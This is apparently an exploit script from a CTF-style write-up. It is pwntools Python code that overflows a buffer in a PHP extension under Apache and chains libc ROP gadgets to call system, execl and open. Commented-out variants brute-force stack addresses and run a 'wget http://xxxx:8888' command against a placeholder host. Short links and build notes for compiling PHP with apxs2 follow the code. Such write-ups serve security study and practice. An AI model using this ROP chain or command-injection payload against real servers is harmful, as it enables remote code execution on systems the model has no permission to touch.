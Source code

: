 ```python
log.warn("some: "+str(hex(some)))
log.warn("Minclude: "+str(hex(include_addr)))
log.warn("ret: "+str(hex(ret-php_addr)))


pop_rdi = 0x23a5f  + libc.address
pop_rsi = 0x2440e  + libc.address
pop_rdx = 0x106725 + libc.address
pop_rax = 0x3a638  + libc.address
push_rax = 0x3680d + libc.address

ret1 = php_addr + 0x498670
ret2 = php_addr + 0x498816
ret3 = php_addr + 0x4EFD83
ret4 = php_addr + 0x4F645E

payload = 'a'*0x70+p64(some)+'a'*0x10
#payload += p64(pop_rdi)+p64(include_addr+0x2054)+p64(minc.plt['php_printf'])
payload += p64(ret)
#payload = +p64(include_addr+0x1368)+p64(ret)
send(payload)


# for i in range(0,255,1):
#     print i
#     payload = 'a'*0x70+p64(some)+'a'*0x10+chr(180)+chr(17)+chr(193)+chr(177)+chr(47)+chr(127)
#     send(payload)
# payload = 'a'*0x88+p64(pop_rdi)+p64(0x5)+p64(libc.symbols['sleep'])+p64(ret4)
# send(payload)

# down("/usr/lib/apache2/modules/libphp7.so","pwnlibphp.so")


# payload = 'a'*0x88+p64(pop_rdi)+p64(0x5)+p64(libc.symbols['sleep'])
# payload = '/tmp/xuanxuan\x00'.ljust(0x88, 'a')
# payload += p64(pop_rdi)+p64(stack)+p64(pop_rsi)+p64(0x41)+p64(libc.symbols['open'])
# send(payload)

# for i in range (10000):
#     test = stack + i*0xf
#     log.warn(hex(test))
#     session = requests.Session()
#     payload = 's;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;s;wget http://xxxx:8888\x00'.ljust(0x88,'a')
#     payload += p64(pop_rdi)+p64(test)+p64(libc.symbols['system'])
#     #print payload
#     send(payload)

#payload = '/bin/sleep\x005\x00'.ljust(0x88,'a')
#payload += p64(pop_rdi)+p64(0x5)+p64(libc.symbols['sleep'])
#payload += p64(pop_rdi)+p64(stack)+p64(pop_rsi)+p64(stack+12)+p64(libc.symbols['execl'])

# payload = 'a'*0x88
# payload += p64(pop_rdi)+p64(stack)+p64(pop_rsi)+p64(0x41)+p64(libc.symbols['open'])
```


- [第三节 函数的调用和执行](https://docs.kilvn.com/tipi/chapt04/04-03-function-call.html)
- [Ubuntu 16.04 编译安装 PHP 7.2](https://blog.izgq.net/archives/910/)
- [php7编译后没有libphp7.so？](https://www.zhihu.com/question/38869703)

```
sudo apt-get install apache2-dev
--with-apxs2
```